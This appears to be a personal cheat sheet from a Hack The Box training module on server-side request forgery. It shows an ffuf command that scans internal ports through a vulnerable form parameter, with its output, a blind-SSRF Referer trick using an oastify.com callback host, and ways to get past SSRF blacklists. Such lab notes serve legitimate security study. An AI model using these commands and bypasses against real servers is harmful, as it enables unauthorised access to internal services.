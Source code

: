 ![[Server_Side_Attacks_Module_Cheat_Sheet.pdf]]

# SSRF
## Port Discovery
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

## URL Fuzzing
example: 192.168.0.FUZZ

## Blind SSRF in Referer Header
Just use Referer: https://r80jbhuq4svofeubo41rcv8hq8wzkp8e.oastify.com/

## Blacklisted SSRF WAF
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

![[Pasted image 20250410172855.png]]
Case bypass